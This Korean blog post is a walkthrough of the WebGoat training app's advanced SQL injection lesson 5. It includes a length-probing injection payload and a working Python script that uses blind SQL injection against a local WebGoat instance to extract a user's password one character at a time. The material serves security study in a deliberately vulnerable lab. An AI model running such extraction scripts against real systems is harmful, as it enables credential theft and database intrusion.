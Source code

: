 ```yaml
---
layout: single
title: "WebGoat SQL Injection (advanced) 5"
date: 2024-12-21 13:50 +0900
categories: 
    - WEB-study
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## SQL Injection (advanced) 5번 문제

5번 문제는 로그인과 회원가입 기능이 존재한다.

![{09B9EE2E-B6C3-4C06-901D-6B2A52589C70}](/images/2024-12-21-WEBgoat/{09B9EE2E-B6C3-4C06-901D-6B2A52589C70}.png)

<br>

tom이라는 이름으로 비밀번호를 Blind SQLi로 알아내야 하는데 회원가입 기능에서 보면 tom 이라는 이름으로 로그인할 때 이미 존재한다는 응답으로 보았을 때 select문을 이용해서 아이디 중복을 체크한다는 것을 알 수 있다.

![{B3119549-20DE-42C6-826C-3B361A35C3D7}](/images/2024-12-21-WEBgoat/{B3119549-20DE-42C6-826C-3B361A35C3D7}.png)

<br>

버프로 패킷을 캡처해보면 아래와 같다. `username_reg` 에 싱글쿼터를 넣어서 확인했을 때 응답이 살짝 다르고, `t'||'om` 이렇게 테스트 해보면 sqli가 가능할 것으로 보인다. 또한 password_reg로 보았을 때 패스워드 컬럼 이름이 `password`일 수도 있다는 것을 예상할 수 있다.

![{A0F5302D-95D2-49BB-B926-26BEFDF88385}](/images/2024-12-21-WEBgoat/{A0F5302D-95D2-49BB-B926-26BEFDF88385}.png)

![{1C52F911-BADA-4FA7-8D42-8708D256B3BF}](/images/2024-12-21-WEBgoat/{1C52F911-BADA-4FA7-8D42-8708D256B3BF}.png)

![{3BC0BD2C-5F49-4943-BBD0-62B303BA9D01}](/images/2024-12-21-WEBgoat/{3BC0BD2C-5F49-4943-BBD0-62B303BA9D01}.png)

<br>

blind sqli를 하기 위해 먼저 password의 길이를 아래와 같은 페이로드로 응답 값을 확인하여 확인해보면 23자리인 것을 알 수 있다.

```sql
'tom and length(password)>0--
```

<br>

blind sqli를 파이썬으로 코드를 짜면 패킷 응답을 확인하기 위해서 로깅이란 걸 설정해주었고, 패스워드 자리 수가 23자리이고 아스키코드로 65~127 사이에 있는 값으로 응답이 다른 것을 아래와 같이 코드로 짜주면 된다.

```python
import requests
import logging

# 로깅 설정
logging.basicConfig(level=logging.DEBUG)

# 세션 유지
session = requests.Session()

session.cookies.set("JSESSIONID", "mVd2rNBS_4szRsFdIWXxn42vrzIPyodLSJ5IZkWS")

password = ''
for a in range(1, 24):
    for i in range(65, 128):
        # SQL Injection 요청
        payload = f"tom' and ascii(substring(password,{a},1))>{i}-- "
        url = 'http://127.0.0.1:5555/WebGoat/SqlInjectionAdvanced/challenge'
        data = {
            "username_reg": payload,
            "email_reg": "test@naver.com",
            "password_reg": "test",
            "confirm_password_reg": "test"
        }

        # PUT 요청
        response = session.put(url, data=data)

        if "already" not in response.text:
            print(f"패스워드 {a} 번째 자리 수 아스키 코드는 {i}입니다.")
            password += chr(i)
            print(f"현재 패스워드: {password}")
            break
            
```

![{41904E80-227A-4528-B4E7-B25324CB1BDE}](/images/2024-12-21-WEBgoat/{41904E80-227A-4528-B4E7-B25324CB1BDE}.png)